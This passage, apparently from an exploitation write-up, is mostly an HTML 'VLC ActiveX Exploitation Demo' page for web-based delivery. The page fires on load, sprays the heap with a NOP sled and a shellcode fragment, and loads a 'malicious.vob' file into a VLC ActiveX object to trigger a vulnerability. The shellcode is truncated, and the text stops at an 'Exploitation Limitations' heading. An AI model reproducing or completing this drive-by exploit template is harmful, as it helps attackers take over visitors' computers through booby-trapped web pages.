 ### Web-Based Delivery

```html
<!DOCTYPE html>
<html>
<head>
    <title>VLC ActiveX Exploitation Demo</title>
    <script>
        function triggerExploit() {
            // Setup heap spray
            var spray = setupHeapSpray();
            
            // Trigger VLC ActiveX vulnerability
            var vlc = document.getElementById('vlcPlugin');
            vlc.src = 'malicious.vob';
            
            // Monitor for exploitation success
            setTimeout(function() {
                console.log("Exploit triggered");
            }, 2000);
        }
        
        function setupHeapSpray() {
            // NOP sled + shellcode
            var shellcode = unescape("%u9090%u9090%u9090%u9090" + 
                                   "%u68fc%u8b48%u3148%u8b48" + 
                                   // ... shellcode continues
                                   );
            
            // Spray heap with payload
            var chunks = [];
            for (var i = 0; i < 200; i++) {
                chunks[i] = shellcode;
            }
            
            return chunks;
        }
    </script>
</head>
<body onload="triggerExploit()">
    <h1>VLC Media Player</h1>
    <object id="vlcPlugin" classid="clsid:E23FE9C6-778E-49D4-B537-38FCDE4887D8">
        <param name="autoplay" value="true">
    </object>
</body>
</html>
```

## Exploitation Limitations

### Environmental Constraints
